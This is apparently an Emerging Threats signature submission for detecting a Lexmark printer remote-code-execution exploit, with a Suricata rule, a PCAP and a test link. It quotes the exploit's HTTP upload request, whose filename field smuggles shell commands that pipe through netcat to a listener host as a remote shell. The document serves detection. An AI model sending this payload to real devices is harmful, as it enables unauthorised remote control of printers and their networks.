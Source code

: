 # ET Open Submission
### January 25th, 2023
### Lexmark RCE Exploit Detected


## Resources

1. https://github.com/blasty/lexmark

Lexmark RCE 0-Day as of January 10th, 2023

Without an actual Lexmark printer I am making some assumptions but the initial POST is mostly all I needed to confirm this wasn't previously being detected and can be detected based on it.

Below is the initial POST from the exploit given by blasty.

```POST /webglue/uploadfile/ImportFaxLogo HTTP/1.1
Host: 192.168.2.1
User-Agent: python-requests/2.27.1
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Content-Length: 188
Content-Type: multipart/form-data; boundary=be74f00990243272ae1a2528f31c16e0

--be74f00990243272ae1a2528f31c16e0
Content-Disposition: form-data; name="x"; filename="x"

lol;";sh /tmp/xyz # "; id | nc 192.168.2.29 1912 | sh # 
--be74f00990243272ae1a2528f31c16e0--
```

I generated a Flowsynth PCAP from this info. [Download it here](flowsynth.pcap)

## Signature

```alert http $EXTERNAL_NET any -> $HOME_NET any msg:"ET Exploit (Lexmark Malicious File Upload Detected)"; flow:established,to_server; http.method; content:"POST"; bsize:4; http.uri; content:"/webglue/uploadfile/ImportFaxLogo"; bsize:33; fast_pattern; http.request_body; content:"Content-Disposition:"; nocase; content:"name="; nocase; content:"filename="; nocase; within:255; pcre:"/(?:[\x60\x3b\x7c\x26]|%60|%3b|%7c|%26|(?:[\x3c\x3e\x24]|%3c|%3e|%24)(?:\x28|%28))/Ri"; reference:url,https://github.com/blasty/lexmark; classtype:exploit-activity; sid:1; rev:1;)```

This link **should** last for 30 days. If not, just use the pcap to recreate it.

[Dalton Job ID](https://dalton.centraliowacybersec.com/dalton/coverage/job/1ac0f73a37a2378e)

## Downloads

[Flowsynth PCAP](flowsynth.pcap)
